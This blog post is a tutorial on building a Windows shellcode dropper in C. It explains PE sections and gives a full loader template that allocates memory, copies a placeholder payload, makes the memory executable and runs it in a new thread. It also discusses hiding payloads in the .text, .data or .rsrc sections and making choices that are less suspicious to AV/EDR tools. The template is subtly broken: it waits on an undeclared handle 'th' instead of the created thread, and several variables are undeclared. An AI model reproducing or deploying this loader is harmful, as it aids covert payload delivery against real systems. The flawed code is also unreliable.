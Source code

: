 ```yaml
---
title: Creating a Dropper in C
date: 2023-02-19 12:00:00 -500
categories: [blog]
tags: [code_execution]     #   TAG should always be lowercase

---
```


In this post we will take a very high level approach to creating a dropper for Windows. The structure of the dropper can take the form of 3 templates, each using a different structure of the portable executable to execute your shellcode. A dropper is just an application/binary/PE that delivers and executes your payload/Shellcode on the target system.

# What is a Portable Executable (PE)

a PE is a Way of structuring a file on disk so that the Windows loader recognizes the file as executable code and loads it into memory. If you want to have a detailed look at the structure of a PE, [here](https://github.com/corkami/pics/blob/master/binary/pe101/pe101.png) you go. The two main structures we will be looking at will be Headers and Sections.

Headers is just metadata about the PE. The below image shows the information contained in the headers for notepad.exe.

![headers](/assets/img/Headers.jpg)

Sections actually contain the executable code for a PE. The below image shows the sections contained in notepad.exe. These sections will become important later on when choosing where to store your payload.

![sections](/assets/img/PEBear.png)

# What is the difference between an EXE and a DLL

Two of the main PEs offensive operators can/will make use of is .exe(s) and .dll(s). The main difference between the two is that an EXE is a self-contained structure and completely independant in memory. The EXE will create a new process in windows and can interact with other processes, load different libraries and use all the different Win32/NT APIs. a DLL on the other hand is just a library that is called by an already in-memory process and usually needs a function inside the library that is called by the process.

# Sections for use in offensive tradecraft

The 3 sections that we can make use of for our payload/shellcode are the .data (Data), .text (Text) and .rsrc (Resources) sections. Each section that you choose for your payload will require a different layout in our C program. We will discuss the differences, but let's create the template for our first dropper program and then look at the distinguising features of our program and it's corresponding section. For any shellcode execution, there needs to be 4 essential functions within your program (There are different ways of doing this within the offensive community, but that is a post/posts for another day). 

Firstly, we want to reserve space in memory for our code and that can be accomplished by using the ```VirtualAlloc``` API. We allocate the memory space and also tell Windows what protections to apply (Read and Write) to the memory space ```flProtect``` (very important for detection considerations).

```c++
VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect)
```
Secondly, we want to copy our payload (assigned to a variable in our template) into the newly reserved memory space with the ```RtlMoveMemory``` API.

```c++
RtlMoveMemory(VOID *Destination, VOID *Source, SIZE_T Length);
```

Thirdly, we change the protection on the assigned memory region to make it executable (Read, Write, Execute) by using the ```VirtualProtect``` API. Changing the memory protection after assignment is slightly less suspicious for AV/EDR tools.

```c++
VirtualProtect(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
```

Lastly we make use of the ```CreateThread``` API to execute our code in a new thread within the process.

Our template for our dropper should now look like this:

```c++
unsigned char payload[] = {SHELLCODE};
unsigned int payload_length = SHELLCODE_LENGTH;
```

```c++
int main(void) {

// Reserve space in memory for our payload
me_reserve = VirtualAlloc(0, payload_length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

// Move the payload to the newly reserved space.
RtlMoveMemory(me_reserve, payload, payload_length);
	
// Change the memory protection to add execute permissions
mem_protect = VirtualProtect(me_reserve, payload_length, PAGE_EXECUTE_READ, &oldprotect);

// run the payload
if ( mem_protect != 0 ) {
	exec = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) me_reserve, 0, 0, 0);
	WaitForSingleObject(th, -1);
}

return 0;
}

```

The differences in the code comes in w.r.t to which section you would like to use for your payload.

If you want to use the ```.text``` section, you need to assign your payload as a local variable. So within the main function of the application.
If you want to use the ```.data``` section, you need to assign your payload as a global variable. So outside of the main function of the application.

The use of the ```.rsrc``` section is slightly more complex:

<ol>
  <li>Store your payload in a resources file on disk - payload.rc</li>
  <li>You need an additional include in the application "include resources.h"</li>
  <li>The payload needs to be extracted from a file using the FindResource, LoadResource and LockResource APIs before continuing with the above template as normal</li>
  <li>You will need to use the Windows Resource Compiler to create an object file from your payload resources file</li>
</ol>

Hopefully this post has clarified a couple of nuances for you and we will continue with this thread in future posts to look at some techniques to avoid getting detected by AV/EDR tools.
